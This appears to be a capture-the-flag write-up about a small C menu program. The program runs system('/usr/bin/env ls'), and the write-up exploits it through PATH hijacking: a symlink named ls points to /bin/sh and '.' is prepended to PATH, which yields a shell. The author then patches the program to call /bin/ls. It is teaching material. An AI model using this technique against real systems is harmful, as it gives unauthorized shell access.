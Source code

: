 This challenge doesn't differ for 32 bit or 64 bit.

Let's take a look at the source code...

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main()
{
	char buf0[50];
	char buf1[50];

	while (1 == 1)
	{
		puts("Since we are falling down a bottoless pit, what do you want to do?");
		fgets(buf0, sizeof(buf0), stdin);
		
		if (strncmp(buf0, "0", 1) == 0)
		{
			fgets(buf0, sizeof(buf0), stdin);
		}

		if (strncmp(buf0, "1", 1) == 0)
		{
			system("/usr/bin/env ls");
		}

		if (strncmp(buf0, "2", 1) == 0)
		{
			printf(buf1);	
		}
	}
}
```

So when we look at the source code we see that we are essentially looped infinitly with a menu with 3 options. The first will allow us to write data to the buf0 buffer, however not enough to do a buffer overflow. The second option uses /usr/bin/env, which is a program that retrieves the directory path of something like python, echo, or in this case the ls program. This is based off of the PATH environement variable and cad be modified. Looking at the last option, we see that it has a format string vulnerabillity, however we have no pheasable way of storing input in buf1, so that option isn't going to work.

So reviewing our three options, the env seems to be the best. Thing is, then env utillity relies on the Path enviornment variable which can be modified. First let's see how it works.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ /usr/bin/env ls
e3  e3.c
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ ls
e3  e3.c
```

As you can see, the output didn't differ at all because the env binary provided the correct path for the ks program. However what if we were to create a symbolic link of ls pointing to /bin/sh, export it to the PATH enviroment variable, then ran it?

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ ln -s /bin/sh ls
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ export PATH=.:$PATH
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ /usr/bin/env ls
$ echo I have a shell!
I have a shell!
$ exit
```

As you can see, my modifieng the PATH enviorment variable, we got /usr/bin/env to run /bin/sh when we asked it to run ls. Let's see if the program will do the same thing.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ ./e3
Since we are falling down a bottoless pit, what do you want to do?
1
$ ls
$ echo is this working?
is this working?
$ cat out
Really, you can do anything you want and you want to leave!?
$ exit
$ exit
Since we are falling down a bottoless pit, what do you want to do?
^C
```

As you can see, we got the binary to give us a shell by modifiing the Path variable. You can also see that as a result of this exploit, while we have the PATH enviornment variable changed for ls, ls no longer works. But we got a shell, and just like that we pwned the binary. Now let's patch it!

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main()
{
	char buf0[50];
	char buf1[50];

	while (1 == 1)
	{
		puts("Since we are falling down a bottoless pit, what do you want to do?");
		fgets(buf0, sizeof(buf0), stdin);
		
		if (strncmp(buf0, "0", 1) == 0)
		{
			fgets(buf0, sizeof(buf0), stdin);
		}

		if (strncmp(buf0, "1", 1) == 0)
		{
			system("/bin/ls");
		}

		if (strncmp(buf0, "2", 1) == 0)
		{
			printf(buf1);	
		}
	}
}
```

Let's test it, with the PATH variable changed like we did to exploit this challeng.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ ./e3
Since we are falling down a bottoless pit, what do you want to do?
1
$ exit
Since we are falling down a bottoless pit, what do you want to do?
^C 
guyinatuxedo@tux:/Hackery/escape/endless_pit/e3 (master)$ ./e3_secure 
Since we are falling down a bottoless pit, what do you want to do?
1
e3  e3.c  e3_secure  e3_secure.c  ls  out
Since we are falling down a bottoless pit, what do you want to do?
1
e3  e3.c  e3_secure  e3_secure.c  ls  out
Since we are falling down a bottoless pit, what do you want to do?
```

Just like that, we patched the binary!
